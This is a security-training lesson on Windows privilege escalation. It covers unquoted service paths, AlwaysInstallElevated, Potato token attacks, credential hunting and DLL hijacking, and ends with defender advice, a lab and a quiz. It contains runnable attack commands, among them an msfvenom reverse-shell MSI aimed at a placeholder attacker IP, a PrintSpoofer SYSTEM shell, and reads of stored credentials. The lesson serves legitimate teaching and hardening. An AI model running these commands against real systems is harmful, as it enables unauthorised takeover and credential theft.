

# Windows privilege escalation

Windows privesc shares the same enumeration-first philosophy as Linux (previous lesson) but with an entirely different set of mechanisms — services, registry keys, tokens, and scheduled tasks replace SUID bits and cron jobs.

## The systematic enumeration-first approach, Windows edition

```powershell
# WinPEAS — the Windows sibling of LinPEAS, same philosophy:
# Download and run winPEAS.exe (or the .bat version) on the target
.\winPEASx64.exe
```

```powershell
# Manual situational awareness, echoing Path 14.6's Windows commands:
whoami /all
systeminfo
net user
net localgroup administrators
```

`whoami /all` is particularly valuable — it shows your current **privileges and group memberships**, several of which directly enable specific escalation techniques covered below.

## The main Windows privesc vectors

### 1. Unquoted service paths

If a Windows service's executable path contains spaces and **isn't wrapped in quotes**, Windows tries each space-separated segment as a potential executable, in order — letting an attacker plant a malicious executable earlier in that search path.

```
Vulnerable service path: C:\Program Files\My App\service.exe
(unquoted — Windows will try, in order:)
  C:\Program.exe
  C:\Program Files\My.exe
  C:\Program Files\My App\service.exe   (the intended one)
```

```powershell
# Find services with unquoted paths containing spaces:
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows" | findstr /i /v """

# If C:\Program Files\ is writable and the service runs as SYSTEM,
# planting a malicious Program.exe there and restarting the service
# (or waiting for a reboot) executes it with SYSTEM privileges.
```

### 2. Weak service permissions

Even with a properly quoted path, if the **service binary itself**, or the service's configuration, is writable by a lower-privileged user:

```powershell
# Check service binary permissions with accesschk (Sysinternals):
accesschk.exe -uwcqv "Authenticated Users" *

# If you can modify a SYSTEM-running service's binary directly,
# replace it with a malicious payload, then restart the service.
```

### 3. AlwaysInstallElevated — an MSI installer misconfiguration

If two specific registry keys are both set to `1`, **any** user can install an MSI package with SYSTEM privileges, regardless of their normal permission level:

```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
# Both showing "AlwaysInstallElevated = 1" means this technique works
```

```bash
# Generate a malicious MSI payload with msfvenom (part of Metasploit, Path 14.5):
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f msi -o malicious.msi
```

```powershell
# Then, on the target, simply install it — no admin rights needed if
# both registry keys are set:
msiexec /quiet /qn /i malicious.msi
```

### 4. Scheduled tasks running with elevated privileges

Directly analogous to Linux cron jobs (previous lesson):

```powershell
schtasks /query /fo LIST /v

# If a SYSTEM-running scheduled task executes a script writable
# by a lower-privileged user, the same technique applies:
# modify the script, wait for the task to fire.
```

### 5. Token impersonation — Potato-family exploits

Windows uses **access tokens** to represent a user's identity and privileges for a running process. Certain services running with the `SeImpersonatePrivilege` token privilege (common for service accounts) can be tricked into handing over a SYSTEM-level token via a family of well-documented exploits known as the **"Potato" attacks** (JuicyPotato, RoguePotato, PrintSpoofer, and successors):

```powershell
# Check if your current token has SeImpersonatePrivilege:
whoami /priv

# If present, tools like PrintSpoofer can leverage it directly:
PrintSpoofer.exe -i -c cmd
# This spawns a SYSTEM-level command prompt
```

This vector has been a persistent theme in Windows privesc for years — new "Potato" variants emerge as Microsoft patches previous ones, making it a genuinely active area worth following as you specialise further.

### 6. Credentials in unexpected places

Directly analogous to Linux — search broadly:

```powershell
# PowerShell history often contains typed passwords:
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Unattended installation files sometimes contain plaintext credentials:
dir /s /b unattend.xml sysprep.inf sysprep.xml 2>nul

# Registry-stored credentials (e.g., for auto-login):
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

### 7. DLL hijacking — the Windows equivalent of PATH hijacking

Directly analogous to Linux's PATH hijacking (previous lesson), Windows applications often load DLLs by name without specifying a full path, following a defined **search order** that checks the application's own directory before checking trusted system directories. If an attacker can write a malicious DLL with the exact expected name into a directory earlier in that search order — often the application's own working directory, if it's writable — the application loads the attacker's code instead of the legitimate library the next time it runs:

```powershell
# A tool like Sysinternals' Process Monitor (procmon) can reveal exactly
# which DLLs a privileged process attempts to load and from where,
# surfacing missing-DLL or wrong-order-search opportunities:
procmon.exe /AcceptEula
```

Finding a legitimate application that's missing an expected DLL, running with elevated privileges, and writable by a lower-privileged user in its load path is a classic, high-value discovery — exactly the kind of finding the LOLBAS reference below catalogues extensively.

## A systematic Windows privesc checklist



### 8. Registry AutoRuns and startup persistence as an escalation clue

Beyond the credential-hunting registry check above, worth a dedicated look: entries in `HKLM\...\Run` and startup folders reveal what executes automatically at boot or logon, often *as SYSTEM* or as a specific service account. If any of those startup entries point to a script or executable writable by a lower-privileged user, replacing it achieves the same "wait for it to run with elevated privileges" outcome as the cron/scheduled-task techniques above — Sysinternals' **Autoruns** tool is the standard way to enumerate every such entry on a system in one pass rather than checking each registry location manually.

## The defender's view

- **Quote all service paths** containing spaces.
- **Audit service and binary permissions** — services running as SYSTEM shouldn't have writable binaries/configs for lower-privileged users.
- **Disable AlwaysInstallElevated** unless there's a genuine, well-understood operational reason.
- **Patch promptly** against known Potato-family exploits — Microsoft has released mitigations for many variants over time.
- **Never leave credentials** in unattended install files, registry auto-login keys, or scripts — use proper secrets management (Windows Credential Manager, or enterprise secrets vaults).
- **Restrict `SeImpersonatePrivilege`** to only the specific service accounts that genuinely require it.

## 🧪 Lab — Windows privesc practice

```powershell
# On a Windows practice VM (many free vulnerable Windows VMs exist on
# TryHackMe/HackTheBox specifically tagged for privesc practice):

# 1. Download and run WinPEAS, review output methodically:
.\winPEASx64.exe > results.txt

# 2. Manually check the AlwaysInstallElevated keys:
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer

# 3. Check your current token privileges:
whoami /priv

# 4. Check for unquoted service paths:
wmic service get name,pathname,startmode | findstr /i /v "C:\Windows"
```

Work through at least one TryHackMe or HackTheBox Windows privesc room, deliberately identifying the specific vector before consulting a walkthrough — the pattern-recognition muscle matters more than memorising any single technique.

:::challenge Test yourself
`whoami /priv` shows your current token has `SeImpersonatePrivilege` enabled. Which well-known family of exploits does this specifically enable, and what's the general mechanism?

<details><summary>Show answer</summary>The <strong>"Potato" family</strong> of exploits (JuicyPotato, RoguePotato, PrintSpoofer, and successors). These tools trick a privileged Windows service or component (often via a coerced NTLM authentication or a local RPC/COM interaction) into handing over a <strong>SYSTEM-level access token</strong> to the process holding <code>SeImpersonatePrivilege</code>, effectively letting a service-account-level foothold escalate directly to full SYSTEM privileges without needing to exploit a separate memory-corruption vulnerability at all.</details>
:::

## Key terms

- **WinPEAS** — the Windows-specific automated privesc enumeration script.
- **Unquoted service path** — a vulnerable service configuration allowing binary planting via ambiguous path parsing.
- **AlwaysInstallElevated** — a registry misconfiguration allowing any user to install MSI packages with SYSTEM privileges.
- **Access token / SeImpersonatePrivilege** — Windows's identity/privilege representation and the specific privilege enabling Potato-family exploits.

## Recap

- Windows privesc mirrors Linux's enumeration-first philosophy with entirely different mechanisms — services, registry, tokens, scheduled tasks.
- Unquoted service paths, weak service permissions, AlwaysInstallElevated, and Potato-family token exploits are the main vectors.
- WinPEAS and `whoami /priv`/`/all` are the essential starting points for any Windows privesc enumeration.
- Credentials in unattended install files and registry auto-login keys remain a surprisingly common, low-tech escalation path.
- Defensive hardening directly mirrors each technique — quoting paths, auditing permissions, disabling risky registry settings, prompt patching.

???refs
- [PayloadsAllTheThings — Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md) — comprehensive technique reference.
- [HackTricks — Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation) — extremely thorough, continuously-updated guide.
- [PEASS-ng (WinPEAS)](https://github.com/peass-ng/PEASS-ng) — the standard automated enumeration toolkit.
- [GTFOBins-equivalent for Windows: LOLBAS](https://lolbas-project.github.io/) — Living Off the Land Binaries and Scripts for Windows.
???

**Next up →** [Windows privilege escalation tools, deep dive](#/lesson/16-advanced/windows-privesc-tools-deep-dive)
